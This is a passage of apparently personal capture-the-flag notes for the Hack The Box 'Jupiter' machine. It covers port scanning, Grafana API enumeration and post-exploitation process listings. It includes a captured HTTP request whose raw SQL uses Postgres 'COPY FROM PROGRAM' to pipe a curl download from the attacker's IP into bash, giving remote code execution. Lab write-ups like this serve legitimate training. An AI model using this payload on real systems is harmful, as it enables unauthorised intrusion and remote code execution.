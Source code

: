 # Jupiter HTB

## NMAP scanning
```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63



PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 ac:5b:be:79:2d:c9:7a:00:ed:9a:e6:2b:2d:0e:9b:32 (ECDSA)
|_  256 60:01:d7:db:92:7b:13:f0:ba:20:c6:c9:00:a7:1b:41 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

## virtual hosting
http://kiosk.jupiter.htb => Grafana


SQLI, NOSQL => doesn't work


## Fuzzing

http://kiosk.jupiter.htb/api/org

```json
{
    "id": 1,
    "name": "Jupiter",
    "address": {
        "address1": "",
        "address2": "",
        "city": "",
        "zipCode": "",
        "state": "",
        "country": ""
    }
}
```

http://kiosk.jupiter.htb/api/search

```json
[
    {
        "id": 1,
        "uid": "jMgFGfA4z",
        "title": "Moons",
        "uri": "db/moons",
        "url": "/d/jMgFGfA4z/moons",
        "slug": "",
        "type": "dash-db",
        "tags": [],
        "isStarred": false,
        "sortMeta": 0
    }
]
```


http://kiosk.jupiter.htb/api/login/ping


```json
{
"message": "Logged in"
}
```



trying to get grafana login


"""
If you're seeing this Grafana has failed to load its application files


1. This could be caused by your reverse proxy settings.

2. If you host grafana under subpath make sure your grafana.ini root_url setting includes subpath. If not using a reverse proxy make sure to set serve_from_sub_path to true.

3. If you have a local dev build make sure you build frontend using: yarn start, or yarn build

4. Sometimes restarting grafana-server can help

5. Check if you are using a non-supported browser. For more information, refer to the list of supported browsers.
"""



```bash
postgres@jupiter:/$ cat /etc/passwd | grep "/bin/bash"
root:x:0:0:root:/root:/bin/bash
juno:x:1000:1000:juno:/home/juno:/bin/bash
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
jovian:x:1001:1002:,,,:/home/jovian:/bin/bash
```



```burpsuite

POST /api/ds/query HTTP/1.1
Host: kiosk.jupiter.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://kiosk.jupiter.htb/d/jMgFGfA4z/moons?orgId=1&refresh=1d
content-type: application/json
x-dashboard-uid: jMgFGfA4z
x-datasource-uid: YItSLg-Vz
x-grafana-org-id: 1
x-panel-id: 24
x-plugin-id: postgres
Content-Length: 401
Origin: http://kiosk.jupiter.htb
Connection: close

{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"COPY cmd_exec FROM PROGRAM 'curl http://10.10.14.29 | bash';SELECT * FROM cmd_exec;","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":662}],"range":{"from":"2023-06-07T13:54:29.170Z","to":"2023-06-07T19:54:29.170Z","raw":{"from":"now-6h","to":"now"}},"from":"1686146069170","to":"1686167669170"}
```

rce





postgres@jupiter:/$ ps -faux | grep "juno"
juno       29680  0.0  0.0   2888   988 ?        Ss   Jun06   0:00      \_ /bin/sh -c /home/juno/shadow-simulation.sh
juno       29681  0.0  0.0   7368  3548 ?        S    Jun06   0:00          \_ /bin/bash /home/juno/shadow-simulation.sh
juno       29683  0.0  4.0 573204 161604 ?       Sl   Jun06   0:00              \_ /home/juno/.local/bin/shadow /dev/shm/network-simulation.yml
juno       29692  0.0  0.0      0     0 ?        Z    Jun06   0:00                  \_ [sh] <defunct>
postgres   53364  0.0  0.0   6476  2456 pts/0    S+   20:43   0:00                                  \_ grep juno
juno       30086  0.0  0.2  18032 10004 ?        S    Jun06   0:00 vi Untitled.ipynb
juno       30182  0.0  0.0   4360  3248 ?        S    Jun06   0:00 bash


possible privesc

/home/juno/.local/bin:/home/juno/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
